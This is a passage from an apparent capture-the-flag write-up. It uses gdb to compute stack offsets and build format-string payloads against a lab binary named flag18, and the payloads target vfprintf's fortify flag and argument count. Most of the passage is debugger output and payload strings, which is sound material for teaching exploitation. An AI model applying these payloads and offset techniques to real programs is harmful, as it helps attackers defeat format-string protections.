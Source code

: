 There's obviously a bit of cheating here, but bare with me: we're essentially breaking on vfprintf, which receives a file pointer, a formatter, and an argument list.  We then take a peek at the stack, note our file pointer, and find the flag inside (0x000000004).  We know need to calculate the offset:

```
(gdb) x/wx 0xbfffef9c
0xbfffef9c:    0x00000004
(gdb) p/d ((0xbfffef9c-$ecx)&0xffffffff)/4
$1 = 2847
(gdb)
```

And accounting for off-by-one, it's 2848.  So:

```
(gdb) r -d /tmp/dbg
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/flag18/flag18 -d /tmp/dbg
site exec %1$*2848$x %1073741824$

Breakpoint 1, 0x00171140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) tb *(vfprintf+4649)
Temporary breakpoint 4 at 0x172359
(gdb) c
Continuing.

Temporary breakpoint 4, 0x00172359 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/i $eip
=> 0x172359 <vfprintf+4649>:    mov    DWORD PTR [edx+eax*4],0x0
(gdb) x/wx $ecx+$eax*4
0xbfffef9c:    0x00000004
(gdb)
```

Great, we've got the correct value for clobbering that flag.  Now we need to find the offset for clobbering nargs:

```
(gdb) find 0xbfff0000, 0xbffffff0, 0xdeadbeef
0xbfff5568
0xbfff59ec
2 patterns found.
(gdb) -r 
Starting program: /home/flag18/flag18 -d /tmp/dbg
site exec %1$*283434$x %1073741824$

Program received signal SIGSEGV, Segmentation fault.
0x00172359 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) p/d (0xbfff5568-$ecx)/4 + 1
$6 = 479
(gdb) 
```

